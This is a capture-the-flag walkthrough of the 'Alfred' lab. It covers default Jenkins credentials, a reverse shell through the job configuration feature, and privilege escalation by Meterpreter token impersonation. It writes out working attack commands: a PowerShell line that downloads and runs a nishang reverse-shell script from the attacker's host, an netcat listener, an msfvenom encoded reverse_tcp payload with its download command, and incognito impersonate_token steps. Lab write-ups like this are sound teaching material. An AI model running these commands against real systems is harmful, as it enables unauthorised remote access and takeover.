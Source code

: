 # Alfred

> Nashia Holloway | April 30th, 2020

## Task 1 Initial Access

**1. How many ports are open?**

There are `3` ports open: 80, 8080, and 3389

**2. What is the username and password to login?**

`admin:admin`

**3. Find a feature of the tool that allows you to execute commands on the underlying system. Get a reverse shell this way.**

The feature is located in http://$IP:8080/job/project/configure. Next we need to create an http server with python. Need to use [nishang](https://github.com/samratashok/nishang).

```
python3 -m http.server 8000 --bind $IP
(in new tab)
nc -lvnp 9000
```
**MAKE SURE YOU'RE IN THE DIRECTORY THE POWERSHELL SCRIPT IS WHEN RUNNING THE PYTHON SERVER (I spent an embarrisingly long time troubleshooting why I kept getting a 404 status)**

Code for web app:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

It took a while to figure out why the python server wasn't serving the powershell file. After binding to my specific port and IP instead of the default, it worked.

## Task 2 Switching Shells

Switch to a metepreter shell to make prive esc easier.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$IP LPORT=1337 -f exe -o shell.exe
```

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://tunnel_IP:8000/shell_name.exe','shell_name.exe')"
```

Once the shell has been downloaded to the box, run the previous powershell script to gain access again and run the process. Before starting the process, make sure meterpreter is listening for the callback.

```
Start-Process "shell_name.exe"
```

Running the payload will open a meterpreter shell.

## Task3 Privilege Escalation

We use [token impersonation](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens) to gain access. First, migrate into a SYSTEM process. Then list the privileges the user has with `whoami /priv`. 

![](whoami_priv.png)

We can see we have [SeImpersonatePrivilege](https://www.exploit-db.com/papers/42556). Load incognito and list tokens to see who we want to impersonate.

```
load incognito
list_tokens -g
``` 

We use the `BUILTIN\Administrators` token.

```
impersonate_token "BUILTIN\Administrators"
```

Read the flag located at `C:\Windows\System32\config`.

